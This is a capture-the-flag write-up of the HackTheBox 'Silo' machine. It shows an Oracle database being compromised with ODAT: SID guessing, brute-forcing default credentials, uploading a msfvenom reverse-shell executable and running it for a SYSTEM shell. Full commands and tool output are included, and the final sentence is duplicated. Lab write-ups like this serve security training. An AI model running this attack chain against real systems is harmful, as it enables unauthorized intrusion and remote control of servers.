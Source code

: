 This method involves using `ODAT` tool to completely exploit the machine and directly getting the `root` shell.

Firstly, to exploit an Oracle database, you need to identify its `Oracle System ID (SID)` string. This is a string that is used to uniquely identify a particular database on a system. This can be done using the `sidguesser` module in ODAT.

```
python3 odat.py sidguesser -s 10.10.10.82 -p 1521

OR 

python3 odat sidguesser -s 10.10.10.82 -p 1521
```

We find 4 SIDs, and we use the `XE` to enumerate the machine further.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes]
└─$  odat sidguesser -s 10.10.10.82 -p 1521 

[1] (10.10.10.82:1521): Searching valid SIDs
[1.1] Searching valid SIDs thanks to a well known SID list on the 10.10.10.82:1521 server
[+] 'XE' is a valid SID. Continue...                                    #################################################################  | ETA:  00:00:05 
100% |#####################################################################################################################################| Time: 00:10:33 
[1.2] Searching valid SIDs thanks to a brute-force attack on 1 chars now (10.10.10.82:1521)
100% |#####################################################################################################################################| Time: 00:00:29 
[1.3] Searching valid SIDs thanks to a brute-force attack on 2 chars now (10.10.10.82:1521)
[+] 'MK' is a valid SID. Continue...                                                                                                       | ETA:  00:05:15 
[+] 'XE' is a valid SID. Continue...                                    ####################################################               | ETA:  00:01:13 
100% |#####################################################################################################################################| Time: 00:10:57 
[+] SIDs found on the 10.10.10.82:1521 server: XE,MK
```

Now, the second thing to do is enumerate valid credentials. This can be done using the passwordguesser module in ODAT. I tried both account files that come with the ODAT installation, however, the tool didn’t find any valid credentials. So instead, let’s locate the credential list that the Metasploit framework uses.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Silo]
└─$ locate oracle_default_userpass.txt
/usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt
```

Copying the `oracle_default_userpass.txt` to odat's `/account` directory

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Silo]
└─$ sudo cp /usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt /opt/odat/accounts/
```

The username and passwords in this list are separated by a space instead of a forward slash (/). We’ll have to change it to forward slash so that the ODAT tool is able to parse the file. This can be done in vi using the following command.

```
:%s/ /\//g
```

Now that we have a proper list, we can use the `passwordguesser` module to brute force credentials.

```
odat passwordguesser -s 10.10.10.82 -p 1521 -d XE --accounts-file accounts/oracle_default_userpass.txt
```

This takes a while but it ends up finding credentials!

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Silo]
└─$ odat passwordguesser -s 10.10.10.82 -p 1521 -d XE --accounts-file /opt/odat/accounts/oracle_default_userpass.txt

[1] (10.10.10.82:1521): Searching valid accounts on the 10.10.10.82 server, port 1521                                                                       
09:26:33 WARNING -: The line 'jl/jl/\n' is not loaded in credentials list: ['jl', 'jl', '']
09:26:33 WARNING -: The line 'ose$http$admin/invalid/password\n' is not loaded in credentials list: ['ose$http$admin', 'invalid', 'password']
The login brio_admin has already been tested at least once. What do you want to do:                                                        | ETA:  --:--:-- 
- stop (s/S)
- continue and ask every time (a/A)
- skip and continue to ask (p/P)
- continue without to ask (c/C)
c
[+] Valid credentials found: scott/tiger. 
```

Now that we have a valid SID and username/password, let’s see if we can get code execution on the box.

ODAT has a utlfile module that allows you to upload, download or delete a file. Since we are trying to get code execution on the box, let’s upload a malicious executable that sends a reverse shell back to our attack machine.

First, generate the executable using msfvenom.
      
```
msfvenom -p windows/x64/shell_reverse_tcp  LHOST=10.10.16.3 LPORT=1234 -f exe > shell.exe
```

Next, upload the file using the utlfile module.

```
odat utlfile -s 10.10.10.82 -p 1521 -U "scott" -P "tiger" -d XE --putFile /temp shell.exe ../../htb/silo/shell.exe 
```

I got an unexpected error.
```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes]
└─$ odat utlfile -s 10.10.10.82 -p 1521 -U "scott" -P "tiger" -d XE --putFile /temp shell.exe ../../htb/silo/shell.exe 

[1] (10.10.10.82:1521): Put the ../../htb/silo/shell.exe local file in the /temp folder like shell.exe on the 10.10.10.82 server
[-] Impossible to put the ../../htb/silo/shell.exe file: `ORA-01031: insufficient privileges`

```

We don’t have sufficient privileges to upload a file. Let’s see if the user was given sysdba privileges by adding the `sysdba` flag to our command.

```
python3 odat.py utlfile -s 10.10.10.82 -p 1521 -U "scott" -P "tiger" -d XE --putFile /temp shell.exe ../../htb/silo/shell.exe --sysdba
```

Now we need to execute the file. We can do that using the externaltable module in ODAT.

First setup a listener on the attack machine to receive the reverse shell.

```
nc -lvnp 1234
```

```
python3 odat.py externaltable -s 10.10.10.82 -p 1521 -U "scott" -P "tiger" -d XE --exec /temp shell.exe --sysdba
```

The database must have been running with SYSTEM privileges and so we got a shell as `SYSTEM`.

```

```

The database must have been running with SYSTEM privileges and so we got a shell as SYSTEM.
